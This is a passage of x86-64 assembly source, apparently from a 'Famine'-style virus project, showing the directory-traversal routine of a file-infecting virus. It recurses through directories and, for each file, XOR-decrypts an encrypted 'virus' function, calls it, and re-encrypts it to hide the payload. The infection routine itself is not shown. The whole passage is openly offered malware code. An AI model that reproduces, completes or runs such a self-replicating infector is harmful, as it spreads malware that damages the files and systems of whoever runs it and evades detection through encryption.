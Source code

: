 ```assembly
        movzx rax, byte [rbx + rdi]
        pop rbx
        add rdi, 1
        sub rcx, 19
        add rdi, rcx
        add rsi, 19

        cmp rax, 4
        jne .file
        
        ; Directory processing (recursive call)
        push rdi
        push rsi
        push rax
        lea rdi, [rel path]
        xchg rsi, rdi
        call add_val
        pop rax
        pop rsi
        pop rdi

        call famine_main  ; Recursive call

        push rsi
        lea rsi, [rel path]
        call sub_val
        pop rsi
        jmp .no_print

    .file:
        ; File processing - decrypt and call virus
        push rdi
        push rsi
        push rax
        lea rdi, [rel path]
        xchg rsi, rdi
        call add_val
        pop rax
        pop rsi
        pop rdi

        ; Decrypt virus function before calling
        XOR_DECRYPT virus_encrypted, virus_encrypted_end - virus_encrypted, [rel xor_key_2]
        call virus_encrypted
        ; Re-encrypt virus function after calling
        XOR_ENCRYPT virus_encrypted, virus_encrypted_end - virus_encrypted, [rel xor_key_2]

    .no_print:
        add rsi, rcx
        jmp .loop
    .done:

    pop rdi
    mov rax, SYS_close
    syscall
    pop rdx
    pop rdi
    pop rsi
    pop rcx
    pop rax
    pop r12
    ret
traversal_code_end:
```